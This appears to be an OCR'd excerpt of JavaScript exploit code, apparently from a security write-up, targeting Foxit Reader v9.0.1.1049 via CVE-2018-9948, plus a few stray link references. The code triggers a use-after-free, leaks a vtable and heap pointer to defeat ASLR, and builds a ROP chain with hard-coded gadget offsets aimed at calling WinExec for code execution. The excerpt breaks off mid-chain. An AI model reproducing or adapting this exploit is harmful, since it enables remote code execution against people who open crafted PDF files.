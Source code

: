 ```JavaScript
    // free
    a.destroy();

    // reclaim
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    // leak the vtable
    var leaked = stolen[0] & 0xffff0000;

    // a hard coded offset to FoxitReader.exe base v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
    foxit_base = leaked-0x01f50000;
}

function leak_heap_chunk(){
    /*
        Foxit Reader Typed Array Uninitialized Pointer Information Disclosure Vulnerability
        ZDI-CAN-5380 / ZDI-18-332 / CVE-2018-9948
        Found by: bit from meepwn team
    */
    
    // alloc
    var a = this.addAnnot({type:"Text", page: 0, name:"a"});

    // free
    this.getAnnot(0, "a").destroy();
    delete a;
    a = null;
    gc();

    // reclaim
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);
    
    // alloc at the freed location
    alloc_at_leak();
    
    // leak a heap chunk of size 0x40
    heap_ptr = stolen[1];
}

function reclaim(){
    /*
        This function reclaims the freed chunk, so we can get rce and I do it a few times for reliability.
        All gadgets are from FoxitReader.exe v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
    */

    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);

        rop[0x00] = heap_ptr;                // pointer to our stack pivot from the TypedArray leak
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo